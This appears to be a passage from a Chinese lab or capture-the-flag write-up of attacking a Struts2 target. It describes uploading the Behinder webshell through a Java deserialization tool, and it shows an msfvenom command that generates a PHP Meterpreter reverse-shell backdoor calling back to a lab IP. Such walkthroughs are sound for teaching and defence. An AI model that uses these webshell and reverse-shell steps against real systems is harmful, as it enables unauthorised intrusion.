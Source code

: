 

失败，360 拦下来了

![image-20220904160410608](./st2.assets/image-20220904160410608.png)



#### 漏洞 WebShell

##### Java反序列化漏洞利用工具 + 冰蝎 反弹 Shell

tasklist 发现 360

![image-20220904163431356](./st2.assets/image-20220904163431356.png)

![image-20220904163651371](./st2.assets/image-20220904163651371.png)



将 [冰蝎](https://github.com/rebeyond/Behinder) 的Server传上WEB

> Requset [JRE](https://www.oracle.com/java/technologies/downloads/) 1.8+

![image-20220905193231829](./st2.assets/image-20220905193231829.png)

冰蝎连接，成功：

![image-20220905193450444](./st2.assets/image-20220905193450444.png)



看看系统信息

![image-20220906012948157](./st2.assets/image-20220906012948157.png)

Shell 也返回成功了

![image-20220906013521880](./st2.assets/image-20220906013521880.png)



##### MSF 反弹 Shell

生成 PHP 后门

```php
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.111.128 lport=9999 -f raw >houmen.php                              
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1116 bytes
```

![image-20220906013850233](./st2.assets/image-20220906013850233.png)


